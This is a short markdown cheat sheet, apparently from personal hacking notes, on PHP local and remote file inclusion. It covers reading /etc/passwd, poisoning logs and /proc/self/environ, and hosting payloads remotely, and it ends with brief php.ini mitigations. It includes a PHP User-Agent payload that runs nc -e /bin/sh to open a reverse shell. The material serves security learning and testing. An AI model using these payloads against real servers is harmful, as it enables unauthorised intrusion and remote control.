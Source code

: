 ### Local File Inclusion
* Some sites make it possible to navigate on the servers file system. Check if you can access local files.
  * /etc/passwd
  * ...
* Try to inject code into readable files like:
  * Environment variables - /proc/self/environ
  * /var/log/auth.log
  * /var/log/apache2/access.log
  * ...
* Use Burp to change header info with PHP code thats going to be executed when reading the local file
  * Change User-Agent (which is an environment variable) to:
    ```php 
    <?php passthru("nc -e /bin/sh <IP> <port>"); ?>
    ```
  * Forward request
  * Access local file to execute the php code
* To use /var/log/auth.log just try to ssh to that site
  * **ssh _"phpCode"_@_site_**
* When passing code, its good practice to encode it with a base64 function and call a function to decode afterwards
  * Use Burp Decoder to encode it
  * Call php decode function: **base64_decode(_"encodedCode"_)**
  * Access local file to execute the php code

### Remote File Inclusion
* Same thing as the local file inclusion but youre going to host the php code in a server
* PHP file must be in .txt format so it wont be executed in your server
* Add **?** after the file path (eg. http://10.10.10.10?page=http://localhost/reverse.txt?)

### Mitigation
* [Local](https://github.com/KevinSantos/Hacking/blob/master/Mitigation/fileInclusionMitigation.php)
* Remote
  * Set **allow_url_fopen** and **allow_url_include** to **Off** in php.ini
